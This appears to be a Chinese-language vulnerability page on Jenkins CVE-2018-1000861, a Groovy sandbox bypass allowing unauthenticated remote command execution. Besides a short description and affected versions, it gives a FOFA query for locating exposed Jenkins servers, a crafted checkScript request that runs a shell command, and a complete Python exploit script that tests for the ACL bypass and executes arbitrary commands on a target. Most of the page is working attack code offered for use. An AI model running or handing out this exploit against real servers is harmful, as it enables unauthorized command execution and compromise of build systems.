

# Jenkins checkScript 远程命令执行漏洞 CVE-2018-1000861

## 漏洞描述

Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。

## 漏洞影响

<a-checkbox checked>Jenkins version < 2.138</a-checkbox></br>

<a-checkbox checked>Jenkins build time < 2019-01-28</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJKZW5raW5zIg%3D%3D">app="Jenkins"</a-button>
</a-checkbox>

## 漏洞复现

登录页面


使用 EXP 执行命令

```python
http://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
  public x(){
    "touch /tmp/success".execute()
  }
```



## 漏洞POC

<a-alert type="success" message="https://github.com/orangetw/awesome-jenkins-rce-2019" description="" showIcon>
</a-alert>

<br/>

```python
#!/usr/bin/python
# coding: UTF-8
# author: Orange Tsai(@orange_8361)
# 

import sys
import requests
from enum import Enum

# remove bad SSL warnings
try:
    requests.packages.urllib3.disable_warnings()
except:
    pass


endpoint = 'descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript'

class mode(Enum):
    ACL_PATCHED = 0
    NOT_JENKINS = 1
    READ_ENABLE = 2
    READ_BYPASS = 3
    ENTRY_NOTFOUND = 999

def usage():
    print '''
  Usage:
    python exp.py <url> <cmd>
    '''

def _log(msg, fail=False):
    nb = '[*]'
    if fail:
        nb = '[-]'
    print '%s %s' % (nb, msg)

def _get(url, params=None):
    r = requests.get(url, verify=False, params=params)
    return r.status_code, r.content

def _add_bypass(url):
    return url + 'securityRealm/user/admin/'

def check(url):
    flag, accessible = mode.ACL_PATCHED, False

    # check ANONYMOUS_READ
    status, content = _get(url)
    if status == 200 and 'adjuncts' in content:
        flag, accessible = mode.READ_ENABLE, True
        _log('ANONYMOUS_READ enable!')
    elif status == 403:
        _log('ANONYMOUS_READ disable!')

        # check ACL bypass, CVE-2018-1000861
        status, content = _get(_add_bypass(url))
        if status == 200 and 'adjuncts' in content:
            flag, accessible = mode.READ_BYPASS, True
    else:
        flag = mode.NOT_JENKINS

    # check entry point, CVE-2019-1003005
    if accessible:
        if flag is mode.READ_BYPASS:
            url = _add_bypass(url)
        status, content = _get(url + endpoint)

        if status == 404:
            flag = mode.ENTRY_NOTFOUND

    return flag

def exploit(url, cmd):
    payload = 'public class x{public x(){new String("%s".decodeHex()).execute()}}' % cmd.encode('hex')
    params = {
        'sandbox': True, 
        'value': payload
    }

    status, content = _get(url + endpoint, params)
    if status == 200:
        _log('Exploit success!(it should be :P)')
    elif status == 405:
        _log('It seems Jenkins has patched the RCE gadget :(')
    else:
        _log('Exploit fail with HTTP status [%d]' % status, fail=True)
        if 'stack trace' in content:
            for _ in content.splitlines():
                if _.startswith('Caused:'):
                    _log(_, fail=True)

if __name__ == '__main__':
    if len(sys.argv) != 3:
        usage()
        exit()

    url = sys.argv[1].rstrip('/') + '/'
    cmd = sys.argv[2]

    flag = check(url)
    if flag is mode.ACL_PATCHED:
        _log('It seems Jenkins is up-to-date(>2.137) :(', fail=True)
    elif flag is mode.NOT_JENKINS:
        _log('Is this Jenkins?', fail=True)
    elif flag is mode.READ_ENABLE:
        exploit(url, cmd)
    elif flag is mode.READ_BYPASS:
        _log('Bypass with CVE-2018-1000861!')
        exploit(_add_bypass(url), cmd)
    else:
        _log('The `checkScript` is not found, please try other entries(see refs)', fail=True)
```

